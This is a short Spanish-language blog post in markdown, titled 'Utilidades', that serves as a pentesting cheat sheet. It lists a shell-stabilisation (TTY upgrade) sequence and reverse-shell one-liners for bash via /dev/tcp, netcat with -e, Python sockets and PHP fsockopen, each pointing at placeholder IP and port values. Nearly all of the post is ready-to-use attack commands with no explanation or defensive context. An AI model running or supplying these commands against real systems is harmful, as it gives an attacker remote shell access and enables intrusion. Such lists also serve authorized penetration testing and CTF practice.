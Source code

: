 ```yaml
---
title: Utilidades
date: 2024-09-01
description: Post con recursos generales.
categories:
    - Utilities
tags:
    - Utilities
media_subpath: /assets/img/commons/Utilities/
# image:
---
```


## Tratamiento de la tty

```bash
script /dev/null -c bash
(Ctrl + Z)
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 44 col 184
```

## Reverse Shell Linux

```bash
bash -i >& /dev/tcp/{IP}/{PUERTO} 0>&1
```

## Reverse Shell Netcat

```bash
nc -e /bin/sh {IP} {PUERTO}
```

## Reverse Shell Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{PUERTO}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Reverse Shell PHP

```bash
php -r '$sock=fsockopen("{IP}",{PUERTO});exec("/bin/sh -i <&3 >&3 2>&3");'
```
